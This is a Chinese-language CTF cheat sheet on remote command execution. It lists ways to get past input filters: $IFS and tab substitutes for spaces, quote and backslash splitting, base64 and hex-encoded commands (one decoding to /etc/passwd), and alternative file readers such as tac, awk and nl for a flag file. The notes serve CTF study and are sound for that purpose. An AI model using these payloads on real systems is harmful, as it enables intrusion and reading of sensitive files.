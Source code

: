 tags:: CTF/RCE

- 空格
	- `$IFS // 注意后面不能接上字母`
	- `${IFS}`
	- `$IFS$1 //1改成其他数字貌似都行`
	- `cat<flag.php`
	- `<>`
	- `{cat,flag.php}`
	- tab
	- `%20`
	- `%09&&`
- 反斜杠
	- `l\s`
	- 也可以这样：`tac<f\ile`
- 斜杠
	- `$(cd ..&&cd ..&cd ..&&cd ..&& pwd)`
- 单引号
	- `'l's`
	- 也可以这样：`tac<f'i'le`
- 双引号
	- `"l"s`
- 命令拼接，内联执行
	- `a='l';b=s;$a$b`
- base64 编码
	- `echo d2hvYW1p | base64 -d`
- hex
	- ``cat `xxd -r -p <<< 2f6574632f706173737764` ``
- `ls`:
	- `dir`
- `cat`或文件名被 waf
  id:: 42eb4318-43ea-4079-963d-61943df49a8c
	- `curl file:///flag`
	- `head /flag`
	- `tail /flag`
	- `tac /flag`
	- `tac /fla?`
	- `tac /fla"g"`
	- `tac /fla'g'`
	- `awk '{print $0}' /flag`
	- `sed q100 /flag`
		- 读取前 99 行
	- `nl /fl?g`
	- `env cat /flag`
	- `uniq`
	- `strings`
	- `cut`
	- `od`
	- `less`
	- `more`
	- `sort`
	- `hexdump`
	- `rev`